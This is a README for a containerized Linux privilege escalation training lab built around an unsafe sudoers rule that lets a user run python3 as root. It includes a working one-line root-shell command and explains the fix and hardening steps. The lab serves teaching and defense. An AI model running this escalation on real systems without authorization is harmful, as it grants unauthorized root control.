

# Linux Privilege Escalation Lab (sudo misconfiguration)

A minimal, realistic container lab where you start as a low-privilege user (`student`) and escalate to `root` due to a dangerous `sudoers` rule.

## What you’ll learn

- Enumerating sudo permissions (`sudo -l`)
- Abusing unsafe sudo allowances to get a root shell
- How to fix the underlying misconfiguration

## Project structure

```
linux-privilege-escalation/
  README.md
  vulnerable/
    Dockerfile
    exploit.sh
    root-flag.txt
  fixed/
    Dockerfile
    root-flag.txt
```

## Screenshot



## Threat model / disclaimer

- The goal is **root inside the container**.
- This does **not** grant root on the host, but it demonstrates how small privilege configuration mistakes become full compromise.

---

## Run from GHCR

Images are published to GHCR by the workflow in this repo. `docker run` will pull automatically if needed.

```bash
# Vulnerable
docker run --rm -it \
  --name privesc-sudo-vuln \
  --hostname privesc-sudo \
  ghcr.io/debaa17/cybersecurity-labs/privesc-sudo:vuln

# Fixed
docker run --rm -it \
  --name privesc-sudo-fixed \
  --hostname privesc-sudo \
  ghcr.io/debaa17/cybersecurity-labs/privesc-sudo:fixed
```

---

## Build images (vulnerable + fixed)

From this directory:

```bash
cd labs/linux-privilege-escalation

# Vulnerable image
docker build -t cyberlabs/privesc-sudo:vuln -f vulnerable/Dockerfile vulnerable

# Fixed image
docker build -t cyberlabs/privesc-sudo:fixed -f fixed/Dockerfile fixed
```

---

## Create a lab network (optional)

This lab doesn’t expose any ports (it’s an interactive shell), but using a dedicated network keeps your environment consistent across labs.

```bash
docker network create cyberlabs-net
```

---

## Run (vulnerable)

```bash
docker run --rm -it \
  --name privesc-sudo-vuln \
  --hostname privesc-sudo \
  --network cyberlabs-net \
  cyberlabs/privesc-sudo:vuln
```

You should land in a shell as the low-privileged user:

```bash
whoami
id
```

---

## Exploit walkthrough (manual)

1) Enumerate sudo permissions:

```bash
sudo -l
```

You should see that `student` can run **python3 as root without a password**.

2) Use the allowed command to spawn a root shell:

```bash
sudo /usr/bin/python3 -c 'import os; os.execv("/bin/bash", ["bash", "-p"])'
```

3) Validate privilege escalation:

```bash
whoami
id
cat /root/flag.txt
```

---

## Exploit walkthrough (optional script)

Inside the vulnerable container:

```bash
./exploit.sh
```

---

## Run (fixed)

```bash
docker run --rm -it \
  --name privesc-sudo-fixed \
  --hostname privesc-sudo \
  --network cyberlabs-net \
  cyberlabs/privesc-sudo:fixed
```

Try the same checks:

```bash
sudo -l
cat /root/flag.txt
```

Expected outcome: `student` is **not** allowed to run privileged commands and cannot read `/root/flag.txt`.

---

## Why this is vulnerable

The vulnerable image contains a rule like:

- `student ALL=(root) NOPASSWD: /usr/bin/python3`

Allowing interpreters (Python, Perl, Ruby, etc.) under sudo is effectively equivalent to giving full root, because they can spawn shells or execute arbitrary commands.

## How it’s fixed

The fixed image removes the unsafe sudo rule.

Real-world hardening patterns include:

- Don’t allow interpreters/editors as sudo targets.
- If sudo is required, allow only narrowly-scoped commands.
- Prefer systemd units, dedicated service accounts, and least-privilege.

---

## Cleanup

```bash
docker network rm cyberlabs-net
```
